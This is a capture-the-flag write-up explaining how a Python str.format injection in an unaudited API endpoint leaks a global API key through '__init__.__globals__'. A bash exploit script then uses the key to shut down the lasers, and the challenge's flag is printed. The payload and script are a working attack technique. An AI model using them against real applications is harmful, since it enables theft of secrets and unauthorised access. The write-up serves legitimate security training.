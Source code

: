 # Mission Impossible

## Challenge

We are given a URL where we can access an API and a livestream that shows a box with lasers around a flag.

One API endpoint requires authentication using an API key.
This endpoint is `/api/v1/security-controls/shutdown` and can be used to turn off the lasers.

Some other endpoints exist, including a couple that return information about employees.
These endpoints do not require authentication.

Documentation is available for all endpoints.

## Solution

The `/api/v1/employees/format` endpoint stands out because of this comment:

```py
# !!! EXPERIMENTAL !!!
#
# This API endpoint is functional but it has not been audited by our security team.
# While it is functional, we can not guarantee that there are no vulnerabilities.
```

If we look at the route, we find that it accepts a format string and processes it with a `person` parameter.

```py
template = request.args['template']
return template.format(person=employees[0])
```

This is a format string vulnerability as we have full control over the format string.
We can use this to access other objects, outside the intended scope.

We can access global variables by sending the string:

```py
"{person.__init__.__globals__[CONFIG][API_KEY]}"
```

This format specifier will be replaced with the global `CONFIG['API_KEY']`.

We can then send this key as a header to the `/api/v1/security-controls/shutdown` endpoint, specifying all 4 lasers.
This will shutdown all lasers and return the flag.

## Exploit

```bash
#!/bin/bash

API_KEY=$(curl -s "http://srv1.momandpopsflags.ca:45451/api/v1/employees/format?template=%7Bperson.__init__.__globals__%5BCONFIG%5D%5BAPI_KEY%5D%7D")
curl -s "http://srv1.momandpopsflags.ca:45451/api/v1/security-controls/shutdown" \
    -H "Content-Type:application/json" \
    -H "X-API-Key: $API_KEY" \
    -d '{"lasers": ["laser0", "laser1", "laser2", "laser3"]}'
```

## Flag

```
magpie{ju5t_w0rm_4r0und_th3_la53r5}
```
